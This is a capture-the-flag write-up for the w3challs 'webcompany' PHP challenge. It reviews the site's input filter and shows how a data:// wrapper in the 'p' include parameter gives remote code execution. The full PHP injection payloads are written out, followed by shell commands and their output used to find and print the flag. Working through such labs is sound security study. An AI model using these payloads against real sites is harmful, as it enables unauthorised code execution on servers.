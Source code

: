 # w3challs - webcompany

Description: *The WebCompany asked you to audit its site, to ensure it is secure... The flag is in a file located within the site tree.*

Site link: https://webcompany.hax.w3challs.com

Source code: https://git.w3challs.com/challenges/hax/-/tree/master/webcompany

## first inspection

Upon visiting the site we are presented with a *home* page which is located at **index.php** and we can also access the *services* and *contact* tabs from the interface. These are located at **index.php?p=services** and **index.php?p=contact** respectively and are accessed through the **GET** parameter **p**. Since the server is running **PHP** this might be hinting to an **LFI** vulnerability. Let's take a look at the available source code.

## source code
Here is the file tree:
```
.
├── config.php
├── contact.page.php
├── home.page.php
├── inc
│   ├── footer.inc.php
│   ├── header.inc.php
│   └── security.inc.php
├── index.php
├── services.page.php
└── style
    ├── accueil.jpg
    ├── auteur.png
    ├── bckg.gif
    ├── contact.jpg
    ├── footer_bckg.jpg
    ├── header_bckg.jpg
    ├── header_bckg_main.jpg
    ├── li.gif
    ├── menu_bckg.jpg
    ├── menu_bckg_over.jpg
    ├── realisation1.png
    ├── realisation2.png
    ├── services.jpg
    ├── sidebar_bckg.gif
    ├── sidebar_bckg.jpg
    └── style.css

3 directories, 24 files
```

The only files of interest here are:
* `index.php` which sanitizes the value of the **GET** parameter **p** and loads the corresponding file.
* `config.php` which contains some variables of file names and file extensions that are included in all of the app's php files.
* `inc/security.inc.php` which implements a **secure()** function with regex applied filters, that is used by **index.php** for input sanitization.

The rest are files containing simple HTML and/or PHP code or static files like images/css displayed by the site. 

Checking the source code of `index.php`, it executes a series of if-else type checks. The only part that could possibly be vulnerable is `include $_GET['p'] . $pageExt`, since it **includes** a file specified by the **$_GET['p']** which we control, and appends the extension **.page.php** to it. We need to check how the app sanitizes the input to contemplate our attack options.
The file `inc/security.inc.php` which implements the **secure()** function, checks if the value of **p**:
* **starts** with the `http://` protocol
* **starts** with the `https://` protocol
* **starts** with the `ftp://` protocol
* **starts** with the `ftps://` protocol
* **starts** with the `file://` protocol
* **starts** with the `/` character
* **contains** the `..` substring

If the input matches **any** of these regex applied filters, the app loads the default home page, otherwise it attempts to load the specified file. The sanitization is not too strict so this could be vulnerable to **LFI**.

## vulnerability
My first thought was to try **url encoding** or **doubly url encoding** the input to include files from the server into the web page, while also adding a **null byte** `%00` at the end to trick the app into ignoring the extension added at the end of the input, but this didn't work. URL encoded characters were decoded back and doubly URL encoded characters, as well as the null byte didn't seem to work at all.
After trying some more tricks I started testing **PHP wrappers** and different **protocols**. Many attempts later, I tried out the **data://** protocol, which got me **RCE**, verified using the `?p=data:text/plain,<?php phpinfo(); ?>` payload.

## exploit
Since the challenge doesn't involve any privesc, we only need to find the flag. I used the following payload, only changing the `cmd` each time: `https://webcompany.hax.w3challs.com/index.php?p=data:text/plain,<?php system('cmd'); ?>`.

Running the `id` command tells me I'm a nobody :/  
`uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)`

`ls -a` reveals a directory named `yo`:  
`. .. config.php contact.page.php home.page.php inc index.php services.page.php style yo .page.php`

`ls -a` on the `yo` directory reveals a directory named `dawg`:  
`. .. dawg .page.php`

Ok I know where this is going..  

Run `find ./yo -type f` to find all the files recursively in the `yo` directory:  
`./yo/dawg/i/herd/you/like/flagz .page.php`

`cat ./yo/dawg/i/herd/you/like/flagz` and we get the flag:  
`W3C{d4fuck allow_url_include 1s 0n?!}`